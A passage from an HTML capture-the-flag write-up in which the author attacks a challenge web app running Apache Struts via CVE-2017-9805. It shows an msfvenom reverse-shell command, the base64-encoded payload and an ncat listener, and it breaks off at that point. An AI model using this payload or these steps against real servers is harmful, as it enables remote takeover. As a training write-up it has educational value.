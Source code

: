         <p class="MsoNormal">It appears that the author of this application is Alabaster Snowball—the user whose password we are supposed to steal. I also found it interesting that it appears there was supposed to be a “state” location dropdown box in place of the “Country”. That indicates to me that the application was rushed to production. There was a hidden link (outside of the &lt;BODY&gt; html tags) that linked to a development version of the software. It also appears that the application uses a PHP backend for processing which may have its own attack vectors to consider.</p>
        <p class="MsoNormal">After making the mental note regarding the author of the web application, I proceeded over to the development version of the app.</p>
        <p class="MsoNormal">I initially noticed that while I went to ‘http://’ version of the site, I was directed to the ‘https://’ version. I decided to not let that bother me.</p>
        <p class="MsoNormal">The development version of the software was very different than the production instance. While examining the source code for the application I saw:</p>
        <pre class="MsoFooter" style="margin-left: .5in;"><span style="font-size: 12.0pt;">&lt;div
         id="the-footer"&gt;&lt;p class="center-it"&gt;Powered By:
          &lt;a href="https://struts.apache.org/"&gt;Apache
           Struts&lt;/a&gt;&lt;/p&gt;&lt;/div&gt;</span>

           <span style="font-size: 12.0pt;"><span style="mso-spacerun: yes;">   </span>&lt;!-- Friend over at Equal-facts Inc
            recommended this framework--&gt;</span></pre>
            <p class="MsoFooter" style="margin-left: .5in;"><span style="font-size: 12.0pt;"> </span></p>
            <p class="MsoNormal">The Equifax exploits have been one of the most publicized security breaches in recent memory. Unfortunately, since I do not deal with struts in any of my environments, I had yet to take the time to fully understand the exploits available. Now seemed like the perfect opportunity.</p>
            <p class="MsoNormal">Rob Willis has a <a href="https://www.youtube.com/watch?v=Aaglpe4A27A">really good video on YouTube </a>(published Sep 15<sup>th</sup>, 2017) that walks through CVE-2017-9805 in lab. Working through a similar setup in my own lab environment I was able to understand to use <a href="https://www.exploit-db.com/exploits/42627/">some exploit code from exploit-db.com</a>. After successful opening a successful remote shell in my lab environment, I went back to my attack on northpolechristmastown.com.</p>
            <p class="MsoNormal">At a high level, obtaining a reverse shell to a host is pretty simple. You upload a payload to a remote server and trick that system into running it. The payload opens up a TCP connection to a destination providing you access.</p>
            <p class="MsoNormal">I crafted my payload using msfvenom, part of the Metasploit framework.</p>
            <p> </p>
            <pre class="MsoFooter" style="margin-left: .5in;"><span style="font-size: 12.0pt;">$ <span class="s1">msfvenom -p linux/x86/shell_reverse_tcp -f elf LHOST=&lt;MY-IP&gt;
             LPORT=55778 -o ./tkfpayload</span></span></pre>
             <p> </p>
             <p class="MsoNormal">This payload is extremely small—roughly 150bytes. Because of its extremely small size, my payload can easily be sent in an HTTP session. Using the exploit python code obtain from expoit-db (referenced above), one can execute remote commands on the host via http. In order to facilitate sending the binary over HTTP I base64 encode the binary.</p>
             <p> </p>
             <pre class="MsoFooter" style="margin-left: .5in;"><b><span style="font-size: 12.0pt; color: #c33720; mso-fareast-language: ZH-CN;">root@kali</span></b><span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;">:</span><b><span style="font-size: 12.0pt; color: #5230e1; mso-fareast-language: ZH-CN;">~/exploits/2017-shhc/l2s</span></b><span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;"># cat ./tkfpayload | base64 -w 0</span>

             <span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;">f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAiYAAAA3AAAAAcAAAAAEAAAMdv341NDU2oCieGwZs2Ak1mwP82ASXn5aEfabUxoAgDZ4onhsGZQUVOzA4nhzYBSaG4vc2hoLy9iaYnjUlOJ4bALzYA=</span></pre>
             <p> </p>
             <p class="MsoNormal">With the payload crafted and encoded, I started listening on<br />my specified TCP port using ncat and sent the payload over to target.</p>
             <p> </p>
             <pre class="MsoFooter" style="margin-left: .5in;"><b><span style="font-size: 12.0pt; color: #c33720; mso-fareast-language: ZH-CN;">root@kali</span></b><span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;">:</span><b><span style="font-size: 12.0pt; color: #5230e1; mso-fareast-language: ZH-CN;">~</span></b><span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;"># ncat -klvp 55778</span>